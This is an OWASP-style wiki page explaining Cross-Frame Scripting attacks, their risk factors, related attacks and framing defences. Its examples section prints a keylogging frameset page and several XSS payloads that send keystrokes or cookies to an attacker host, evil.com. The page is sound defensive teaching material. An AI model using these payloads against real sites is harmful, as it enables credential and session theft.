 ```yaml
---

layout: col-sidebar
title: Cross Frame Scripting
author: 
contributors: 
permalink: /attacks/Cross_Frame_Scripting
tag: attack, Cross Frame Scripting
auto-migrated: 1

---
```


## Description

Cross-Frame Scripting (XFS) is an attack that combines malicious
JavaScript with an iframe that loads a legitimate page in an effort to
steal data from an unsuspecting user. This attack is usually only
successful when combined with social engineering. An example would
consist of an attacker convincing the user to navigate to a web page the
attacker controls. The attacker's page then loads malicious JavaScript
and an HTML iframe pointing to a legitimate site. Once the user enters
credentials into the legitimate site within the iframe, the malicious
JavaScript steals the keystrokes.

## Risk Factors

The standard browser security model allows JavaScript from one web page
to access the content of other pages that have been loaded in different
browser windows or frames as long as those other pages have been loaded
from the same-origin server or domain. It does not allow access to pages
that have been loaded from different servers or domains (see MSDN
article [About Cross-Frame Scripting and
Security](http://msdn.microsoft.com/en-us/library/ms533028%28VS.85%29.aspx)).
However, specific bugs in this security model exist in specific
browsers, allowing an attacker to access some data in pages loaded from
different servers or domains. The most well-known such bug affects IE,
which leaks keyboard events across HTML framesets (see iDefense Labs
advisory [Microsoft Internet Explorer Cross Frame Scripting Restriction
Bypass](http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=77)).
This bug could allow, for example, an attacker to steal the login
credentials of a browser user as he or she tries to type them into the
login form of a third-party web page.

## Examples

### XFS Attack Against IE

To exploit the IE bug which leaks keyboard events across framesets, an
attacker may create a web page at evil.com, which the attacker controls,
and include on the evil.com page a visible frame displaying the login
page for example.com. The attacker can hide the frame's borders and
expand the frame to cover the entire page, so that it looks to the
browser user like he or she is actually visiting example.com The
attacker registers some javascript in the main evil.com page which
listens for all key events on the page. Normally, this listener would be
notified of events only from the main evil.com page -- but because of
the browser bug, this listener is notified also of events from the
framed example.com page. So every key press the browser user makes in
the example.com frame, while trying to log into example.com, can be
captured by the attacker, and reported back to evil.com:

    <!-- http://evil.com/example.com-login.html -->
    <head>
    <script>
    // array of user keystrokes
    var keystrokes = [];
    // event listener which captures user keystrokes
    document.onkeypress = function() {
        keystrokes.push(window.event.keyCode);
    }
    // function which reports keytrokes back to evil.com every second
    setInterval(function() {
        if (keystrokes.length) {
            var xhr = newXHR();
            xhr.open("POST", "http://evil.com/k");
            xhr.send(keystrokes.join("+"));
        }
        keystrokes = [];
    }, 1000);
    // function which creates an ajax request object
    function newXHR() {
        if (window.XMLHttpRequest)
            return new XMLHttpRequest();
        return new ActiveXObject("MSXML2.XMLHTTP.3.0");
    }
    </script>
    </head>
    <!-- re-focusing to this frameset tricks browser into leaking events -->
    <frameset onload="this.focus()" onblur="this.focus()">
    <!-- frame which embeds example.com login page -->
    <frame src="http://example.com/login.html">
    </frameset>

### XSS Attack Using Frames

To exploit a [Cross Site Scripting
Flaw](Cross_Site_Scripting_Flaw "wikilink") on a third-party web page at
example.com, the attacker could create a web page at evil.com, which the
attacker controls, and include a hidden iframe in the evil.com page. The
iframe loads the flawed example.com page, and injects some script into
it through the XSS flaw. In this example, the example.com page prints
the value of the "q" query parameter from the page's URL in the page's
content without escaping the value. This allows the attacker to inject
some javascript into the example.com page which steals the
browser-user's example.com cookie, and sends the cookie via a fake-image
request to evil.com (the iframe's src URL is wrapped for legibility):

    <iframe style="position:absolute;top:-9999px" src="http://example.com/↵
        flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
        ?c='+encodeURIComponent(document.cookie)+'\">')</script>"></iframe>

The iframe is hidden off-screen, so the browser user won't have any idea
that he or she just "visited" the example.com page. However, this attack
is effectively the same as a conventional XSS attack, since the attacker
could have simply redirected the user directly to the example.com page,
using a variety of methods, including a meta element like this (again,
the meta element's URL is wrapped for legibility):

    <meta http-eqiv="refresh" content="1;url=http://example.com/↵
        flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
        ?c='+encodeURIComponent(document.cookie)+'\">')</script>">

The only difference is that when using an iframe, the attacker can hide
the frame off-screen -- so the browser user won't have any idea that he
or she just "visited" example.com. When using a redirect to navigate
directly to example.com, the browser will display the example.com url in
the browser's address bar, and the example.com page in the browser's
window, so the browser user will be aware that he or she is visiting
example.com.

### Another XSS Attack Using Frames

To exploit the same [Cross Site Scripting
Flaw](Cross_Site_Scripting_Flaw "wikilink") as above at example.com
(which prints the value of the "q" query parameter from the page's URL
in the page's content without escaping the value) the attacker could
create a web page at evil.com, which the attacker controls, that
includes a link like the following, and induce the user to click on the
link. This link injects an iframe into the example.com page by
exploiting the XSS flaw with the "q" query parameter; the iframe runs
some javascript to steal the browser-user's example.com cookie, and
sends it via a fake-image request to evil.com (the URL is wrapped for
legibility):

    http://example.com/flawed-page.html?=<iframe src="↵
        javascript:document.body.innerHTML=+'<img src=\"http://evil.com/↵
        ?c='+encodeURIComponent(document.cookie)+'\">'"></iframe>

Again, this attack is effectively the same as a conventional XSS attack;
the attacker simply uses the src attribute of the injected iframe
element as a vehicle to run some javascript code in the attacked page.

## Related Threat Agents

  - An XFS attack generally is carried out by a malicious
    [:Category:Internet
    attacker](:Category:Internet_attacker "wikilink").
  - An XFS attack exploiting a browser bug which leaks events across
    frames is similar to an attack which uses conventional key-logging
    software.

## Related Attacks

  - An attacker might use a hidden frame to carry out a [Cross-site
    Scripting (XSS)](Cross-site_Scripting_\(XSS\) "wikilink") attack.
  - An attacker might use a hidden frame to carry out a [Cross-Site
    Request Forgery
    (CSRF)](Cross-Site_Request_Forgery_\(CSRF\) "wikilink") attack.
  - An attacker might use a visible frame to carry out a
    [Clickjacking](Clickjacking "wikilink") attack.
  - An XFS attack exploiting a browser bug which leaks events across
    frames is a form of a [Phishing](Phishing "wikilink") attack (the
    attacker lures the user into typing-in sensitive information into a
    frame containing a legitimate third-party page).

## Related Vulnerabilities

  - XFS attacks exploit specific browser bugs.

## Related Controls

  - XFS attacks may denied by preventing the third-party web page from
    being framed; the techniques used to do this are the same as those
    used for [Clickjacking Protection for Java
    EE](Clickjacking_Protection_for_Java_EE "wikilink").

## References

  - MSDN article [About Cross-Frame Scripting and
    Security](http://msdn.microsoft.com/en-us/library/ms533028%28VS.85%29.aspx)
  - iDefense Labs advisory [Microsoft Internet Explorer Cross Frame
    Scripting Restriction
    Bypass](http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=77)

[Category:Attack](Category:Attack "wikilink")